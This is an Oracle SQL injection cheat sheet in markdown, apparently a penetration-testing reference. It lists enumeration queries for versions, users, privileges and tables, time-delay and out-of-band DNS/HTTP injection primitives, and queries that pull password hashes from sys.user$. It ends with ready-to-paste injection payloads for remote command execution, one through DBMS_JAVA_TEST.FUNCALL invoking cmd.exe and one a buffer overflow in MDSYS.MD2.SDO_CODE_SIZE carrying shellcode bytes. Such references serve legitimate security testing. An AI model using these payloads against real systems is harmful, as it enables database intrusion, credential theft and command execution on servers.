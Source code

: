 # Oracle

## Database commands

### Comments

```
SELECT 1 FROM dual -- comment
```

SELECT statements must have a FROM clause in Oracle so we have to use the dummy table name ‘dual’ when we’re not actually selecting from a table.

### Version

```
SELECT banner FROM v$version WHERE banner LIKE 'Oracle%';
SELECT banner FROM v$version WHERE banner LIKE 'TNS%';
SELECT version FROM v$instance;
```

### Users

```
SELECT user FROM dual;
SELECT username FROM all_users ORDER BY username;
SELECT name FROM sys.user$;
```

### Privileges

```
SELECT * FROM session_privs; 
SELECT * FROM dba_sys_privs WHERE grantee = 'DBSNMP';
SELECT grantee FROM dba_sys_privs WHERE privilege = 'SELECT ANY DICTIONARY';
SELECT GRANTEE, GRANTED_ROLE FROM DBA_ROLE_PRIVS;
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';
```

### Database info

```
SELECT global_name FROM global_name;
SELECT name FROM v$database;
SELECT instance_name FROM v$instance;
SELECT SYS.DATABASE_NAME FROM DUAL;
SELECT DISTINCT owner FROM all_tables;
SELECT name FROM V$DATAFILE;	
```

#### Default tables

```
SYSTEM
SYSAUX
```

### List tables

```
SELECT table_name FROM all_tables;
SELECT owner, table_name FROM all_tables;
```

### List columns

```
SELECT column_name FROM all_tab_columns WHERE table_name = '<name>';
SELECT column_name FROM all_tab_columns WHERE table_name = '<name>' and owner = '<name>';
```

### Filter table by column name

```
SELECT owner, table_name FROM all_tab_columns WHERE column_name LIKE '%<name>%';
```

### Access nth row

```
SELECT username FROM (SELECT ROWNUM r, username FROM all_users ORDER BY username) WHERE r=<nth>;
```

### String operations

```
SELECT substr('abcd', <nth>, 1) FROM dual; -- gets 3rd character, 'c'
SELECT bitand(6,2) FROM dual;
SELECT chr(65) FROM dual;    -- get 'A'
SELECT ascii('A') FROM dual; -- get 65
SELECT CAST(1 AS char) FROM dual;
SELECT CAST('1' AS int) FROM dual;
SELECT chr(65) || chr(66) FROM dual; -- returns AB
SELECT 'A' || 'B' FROM dual;         -- returns AB
```

### Conditional execution

```
BEGIN IF 1=1 THEN <func1>; ELSE <func2>; END IF; END;
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END FROM dual; --returns 1	
```

### Time delay

```
BEGIN DBMS_LOCK.SLEEP(<seconds>); END;
```

### DNS and HTTP

```
SELECT UTL_INADDR.get_host_name('<ip>') FROM dual
SELECT UTL_INADDR.get_host_address('<url>') FROM dual;
SELECT UTL_HTTP.REQUEST('<url>') FROM dual;
```

## Passwords

```
SELECT name, password, astatus FROM sys.user$; <= 10g.  astatus tells you if acct is locked
SELECT name,spare4 FROM sys.user$ — priv, 11g
```

**Format:** DES-based

## Vulnerabilities

### RCE

#### via function call

```
AND (Select DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','C:\\windows\\system32\\cmd.exe','/C','<command>') FROM DUAL) IS NULL --
```

#### via buffer overflow

```
'||TO_CHAR(MDSYS.MD2.SDO_CODE_SIZE('AAAAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGGHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHHH'||CHR(131)||CHR(195)||CHR(9)||CHR(255)||CHR(227)||CHR(251)||CHR(90)||CHR(227)||CHR(120)||CHR(54)||CHR(141)||CHR(67)||CHR(19)||CHR(80)||chr(184)||chr(191)||chr(142)||chr(01)||chr(120)||chr(255)||chr(208)||chr(184)||chr(147)||chr(131)||chr(00)||chr(120)||chr(255)||chr(208)||'<command>'))--
```

